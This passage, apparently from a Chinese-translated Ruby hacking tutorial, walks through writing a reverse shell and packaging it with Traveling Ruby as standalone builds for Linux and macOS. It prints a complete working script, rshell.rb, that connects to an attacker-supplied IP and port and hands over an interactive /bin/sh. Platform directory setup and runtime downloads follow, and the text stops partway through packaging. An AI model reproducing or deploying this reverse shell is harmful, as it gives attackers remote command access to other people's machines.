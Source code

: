 #### 准备工作

```
mkdir rshell
cd rshell 
```

+   创建你的应用程序 -在我们的情况下，反向shell- 在“rshell”文件夹中

**rshell.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV.size < 2
  puts "ruby #{__FILE__} [HACKER_IP] [HACKER_PORT]\n\n"
  exit 0 
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s) 
```

+   测试它

```
ruby rshell.rb 
# => ruby rshell.rb [HACKER_IP] [HACKER_PORT] 
```

##### 创建打包目录

下一步是为所有目标平台准备软件包，通过为每个平台创建一个目录，并将你的应用程序复制到每个目录中。 （假设你的应用程序在不同的操作系统上可能有所不同）

```
mkdir -p rshell-1.0.0-linux-x86/lib/app
cp rshell.rb rshell-1.0.0-linux-x86/lib/app/

mkdir -p rshell-1.0.0-linux-x86_64/lib/app
cp rshell.rb rshell-1.0.0-linux-x86_64/lib/app/

mkdir -p rshell-1.0.0-osx/lib/app/
cp rshell.rb rshell-1.0.0-osx/lib/app/ 
```

接下来，创建一个`packaging`目录，并将Traveling Ruby二进制文件下载到该目录中。然后将这些二进制文件解压缩到每个打包目录中。你可以在Traveling Ruby的Amazon S3存储桶中找到二进制文件列表。为了更快的下载速度，请使用CloudFront域名"[http://d6r77u77i8pq3.cloudfront.net](http://d6r77u77i8pq3.cloudfront.net)"。在本教程中，我们提取的是版本20141215-2.1.5。

```
mkdir packaging
cd packaging
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-osx.tar.gz
cd ..

mkdir rshell-1.0.0-linux-x86/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz -C rshell-1.0.0-linux-x86/lib/ruby
mkdir rshell-1.0.0-linux-x86_64/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz -C rshell-1.0.0-linux-x86_64/lib/ruby
mkdir rshell-1.0.0-osx/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-osx.tar.gz -C rshell-1.0.0-osx/lib/ruby 
```
